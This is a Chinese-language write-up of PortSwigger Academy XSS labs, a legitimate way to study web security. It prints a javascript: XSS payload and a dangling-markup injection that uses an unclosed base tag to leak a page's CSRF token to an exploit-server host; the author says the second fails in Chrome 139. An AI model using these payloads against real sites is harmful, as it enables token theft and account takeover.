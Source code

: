 會產生以下 html


```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```



恩...實在是看不懂，我覺得這題有空再回來看吧

## Reflected XSS protected by very strict CSP, with dangling markup attack

| Dimension | Description                                                                                                                                                                                                                        |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dangling-markup#what-is-dangling-markup-injection<br/>https://portswigger.net/web-security/cross-site-scripting/content-security-policy#mitigating-xss-attacks-using-csp |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack                                                                                                  |

首先找到注入點在 email，構造 `https://0ae3008003f8b14f82331a680010000c.web-security-academy.net/my-account?email=123`，會產生以下 html


```html
<input required type="email" name="email" value="123">
```

嘗試關閉標籤，構造 `https://0ae3008003f8b14f82331a680010000c.web-security-academy.net/my-account?email=123"/><img src="https://www.google.com`，會產生以下 html


```html
<input required="" type="email" name="email" value="123">
<img src="https://www.google.com">
```

看一下網站的 CSP


```
content-security-policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

這題的重點是要注入 `123"/><a href="https://exploit-0a91000904b1726d809507f0011000e3.exploit-server.net/">Click Me</a><base target='`，讓 html 結構變成以下


```html
<input required="" type="email" name="email" value="123">
<a href="https://exploit-0a91000904b1726d809507f0011000e3.exploit-server.net/">Click Me</a>
<base target='">
                            <input required type="hidden" name="csrf" value="wkxoIiRnkTeOOKgcuHeTTeXaKwFUGU4Q">
                            <button class='
```

但我實測在 Chrome 139，這個方法已經不管用，另開新頁的 `window.name` 只會拿到空字串，所以這題應該沒辦法解了
